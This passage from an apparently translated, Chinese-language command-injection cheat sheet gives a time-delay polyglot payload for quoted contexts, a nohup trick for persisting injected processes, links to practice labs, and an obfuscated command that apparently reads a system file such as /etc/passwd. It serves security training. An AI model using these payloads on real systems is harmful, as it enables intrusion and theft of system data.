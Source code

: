 * 示例 2：

  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # 单引号和双引号内的命令上下文：
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```

## 技巧

### 后台运行长时间运行的命令

在某些情况下，你可能有一个长时间运行的命令，由于注入进程超时而被杀死。
使用 `nohup`，可以在父进程退出后保持进程运行。

```bash
nohup sleep 120 > /dev/null &
```

### 删除注入后的参数

在类 Unix 命令行界面中，`--` 符号用于表示命令选项的结束。在 `--` 之后，所有参数都被视为文件名和参数，而不是选项。

## 实验室

* [PortSwigger - OS 命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [PortSwigger - 带时间延迟的盲注 OS 命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [PortSwigger - 带输出重定向的盲注 OS 命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [PortSwigger - 带外部交互的盲注 OS 命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [PortSwigger - 带外部数据窃取的盲注 OS 命令注入](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
* [Root Me - PHP - 命令注入](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
* [Root Me - 命令注入 - 过滤器绕过](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
* [Root Me - PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
* [Root Me - PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

### 挑战

基于前面的技巧，以下命令的作用是什么：

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```
